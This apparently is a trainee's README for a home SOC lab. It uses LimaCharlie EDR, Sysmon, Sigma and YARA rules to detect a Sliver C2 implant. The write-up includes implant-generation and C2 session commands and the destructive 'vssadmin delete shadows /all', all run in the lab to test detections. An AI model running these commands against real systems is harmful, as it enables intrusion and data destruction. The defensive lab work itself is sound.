 # # LimaCharlie SOC Analyst Lab: Hands‑On EDR, C2 Simulation and Detection

## Scenario Overview

As a SOC analyst‑in‑training, I built a lab environment that mirrors the tasks undertaken by professionals using the LimaCharlie SecOps Cloud Platform. The exercises documented here include deploying an EDR sensor, ingesting Sysmon logs, enabling Sigma rules, interacting with a Sliver command‑and‑control (C2) framework, and creating detection and blocking rules. By completing each step manually, I gained hands‑on experience with endpoint telemetry, attack simulation, and automated response.

## Lab Environment

* **Windows VM** – A lab workstation where the LimaCharlie agent and Sliver implant were installed.
* **Linux VM** – Hosts the Sliver server and client used to generate and manage C2 implants.
* **LimaCharlie Console** – Cloud interface for managing sensors, logs, rules, and detections.

### Tools Used

* LimaCharlie EDR agent and web console
* Windows Sysmon event logging
* Sigma rule set extension
* Sliver C2 framework (server and client)
* YARA rules for malware detection

## Objectives

This lab aligns with SOC analyst skills such as:

* Deploying endpoint sensors and ingesting event logs.
* Detecting malicious activity using Sigma and YARA rules.
* Simulating attacker behavior with a C2 implant.
* Crafting and testing detection & response (D&R) rules to block threats.

## Steps Overview

### 1. Deploy LimaCharlie and Create an Organization

* Created a free LimaCharlie account and completed the role questionnaire.
* Created a unique organization, selected the nearest data residency region, disabled the demo configuration, and chose no pre‑configured template.
* Added a Windows endpoint sensor (x86‑64 installer) but did not install it yet.
* Started both the Windows and Linux virtual machines to prepare for agent installation and Sliver setup.

### 2. Install the EDR Agent on Windows

* On the Windows VM, opened an administrative command prompt and navigated to `C:\Users\Administrator\Downloads`.
* Executed the installer using the command:

  ```powershell
  .\lc_sensor.exe -i <my_installation_key>
  ```

* Confirmed in the LimaCharlie console that the sensor was reporting in.

### 3. Configure Sysmon Log Ingestion

* In **Sensors → Artifact Collection**, created a rule named `windows-sysmon-logs` with pattern `wel://Microsoft-Windows-Sysmon/Operational:*` and a 10‑day retention period.
* Observed Sysmon events arriving alongside LimaCharlie telemetry.

### 4. Enable the Sigma EDR Ruleset

* Navigated to **Add‑ons → Extensions** and subscribed to the `ext‑sigma` extension.
* This loaded a comprehensive library of Sigma detection rules into the environment.

### 5. Set Up the Sliver C2 Framework

* On the Linux VM, verified that the Sliver server was running via `systemctl status sliver` and started it if necessary.
* Launched the Sliver client and ensured an HTTP listener was active (`jobs`, then `http` if not).
* Generated a unique Sliver implant using:

  ```shell
  generate --http <linux_vm_ip> --save /var/www/payloads
  ```

* On the Windows VM, downloaded the implant from the Sliver server’s web interface and executed it.
* In the Sliver client, confirmed the callback with `sessions` and entered the session (`use <session_id>`).

### 6. Explore the C2 Session and LimaCharlie Telemetry

* Within the Sliver session, ran commands such as `info`, `whoami`, `pwd`, `netstat`, and `ps -T` to enumerate system details, privileges, network connections, and running processes.
* In the LimaCharlie console, navigated through the **Processes**, **Network**, **File System**, and **Timeline** tabs for the Windows sensor.
* Noted that the custom implant appeared as an unsigned process with network activity.
* Used VirusTotal lookups on the implant file and reviewed the Timeline to correlate implant creation, execution, and network activity.

### 7. Detect and Block Volume Shadow Copy Deletion

* In the Sliver session, dropped into a native Windows shell and executed:

  ```powershell
  vssadmin delete shadows /all
  ```

* Observed a Sigma detection in LimaCharlie for shadow copy deletion.
* Built a custom D&R rule that reports detections and issues a `deny_tree` task against the parent process to terminate ransomware‑like activity.
* After enabling the rule, re‑ran the command; the command still completed, but the C2 session was terminated, proving the rule blocked the implant’s process tree.
* Verified the rule fired in the **Detections** tab.

### 8. Add YARA Signatures and Automate Scans

* Added two YARA rules under **Automation → YARA Rules**: `sliver` (for file scanning) and `sliver-process` (for memory scanning) using published Sliver signatures.
* Created two D&R rules to alert on YARA detections: one for file detections and another for process detections.
* On the Windows VM, moved the Sliver implant between directories to trigger automatic scanning of new files. Saw alerts for executable files landing in the **Downloads** folder followed by YARA detections.
* Killed any running implant processes and re-executed the implant from **Downloads**. This generated a new process event and triggered a YARA detection in memory.
* Confirmed that LimaCharlie automatically flagged and tagged the implant both when dropped and when executed.

## Summary and Key Takeaways

By performing each task manually, I gained practical experience in deploying and managing LimaCharlie EDR sensors, ingesting Sysmon logs, enabling Sigma rules, and operating the Sliver C2 framework. I validated that:

* Endpoint telemetry from LimaCharlie and Sysmon provides deep visibility into processes, network connections, and file events.
* Sigma rules and YARA signatures can reliably detect malicious behaviors such as shadow copy deletion and custom implants.
* D&R rules can be tuned to either alert or automatically block threats; proper baselining is crucial to avoid false positives.
* Integrating offensive tooling (Sliver) with defensive platforms (LimaCharlie) offers an end‑to‑end view of attack techniques and defenses.

## Repository Structure

```
lima-charlie-soc-analyst-lab/
├── README.md  # this report documenting my completed labs
```
